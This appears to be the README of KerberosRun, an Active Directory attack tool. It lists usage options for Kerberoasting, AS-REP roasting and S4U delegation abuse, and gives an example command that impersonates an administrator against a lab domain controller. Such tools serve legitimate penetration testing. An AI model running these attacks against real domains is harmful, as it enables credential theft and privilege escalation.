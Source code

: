 # KerberosRun




    Usage: KerberosRun.exe -h

    --Kerberoast    Kerberoasting
        --User      (A valid username)
        --Pass      (A valid password)
        --Domain    (A valid domain name)
        --SPN       (Target SPN for Kerberoasting)
        --Verbose
        
    --Asreproast    ASREPRoasting
        --User      (A valid username that does not require PreAuth)
        --Domain    (A valid domain name)
        --Format    Output Hash format (John/Hashcat, Default: Hashcat)
        --Verbose

    --S4U2Self      Service for User to Self
        --User      (A valid username that has SPN set)
        --Pass      (A valid password)
        --Domain    (A valid domain name)
        --ImperonsateUser  (A user to impersonate)
        --Verbose

    --S4U           S4U2Self and S4U2Proxy
        --User      (A valid username that has SPN set)
        --Pass      (A valid password)
        --Domain    (A valid domain name)
        --ImperonsateUser  (A user to impersonate)
        --SPN       (Target SPN for impersonate user)
        --Verbose

    Example:  .\KerberosRun.exe --s4u --domain corplab.local --user username --pass password --impersonateuser administrator --spn ldap/dc1.corplab.local
